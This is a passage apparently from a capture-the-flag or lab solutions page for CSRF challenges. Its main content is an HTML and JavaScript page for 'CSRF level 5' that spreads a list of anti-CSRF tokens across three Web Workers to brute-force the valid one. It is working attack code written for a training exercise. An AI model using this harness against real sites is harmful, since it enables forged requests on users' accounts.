 ```js
         bruteLoop(tokens);
      </script>
   </body>
</html>

```

### Hard: CSRF level 5

```js
<html>
   <body>
      <h1>Anti-CSRF Tokens to test</h1>
      <textarea id="tokens" rows="12" cols="60">
         00411460f7c92d2124a67ea0f4cb5f85
         # add the tokens
      </textarea>
      <br>
      <h1>Workers results</h1>
      <span id="workers"></span>

      <script>
         function startBlock(worker, tokens) {
            worker.postMessage({
               'tokens': tokens
            });
         }

         var bruterPath = "csrf.labs.bruter.js";

         var ww1 = new Worker(bruterPath);
         ww1.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww1</b> says: " + e.data + "<br>";
         }, false);

         var ww2 = new Worker(bruterPath);
         ww2.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww2</b> says: " + e.data + "<br>";
         }, false);

         var ww3 = new Worker(bruterPath);
         ww3.addEventListener('message', function (e) {
            document.getElementById("workers").innerHTML += "<b>ww3</b> says: " + e.data + "<br>";
         }, false);

         var tokens = document.getElementById('tokens').value.replace(/\s+/gm, '\n').split('\n');
         tokens = tokens.filter(Boolean);

         startBlock(ww1, tokens.slice(0, 333));
         startBlock(ww2, tokens.slice(333, 666));
         startBlock(ww3, tokens.slice(666, tokens.length));
      </script>

      <div>
         <img src="counter.gif" />
      </div>
   </body>
</html>

```
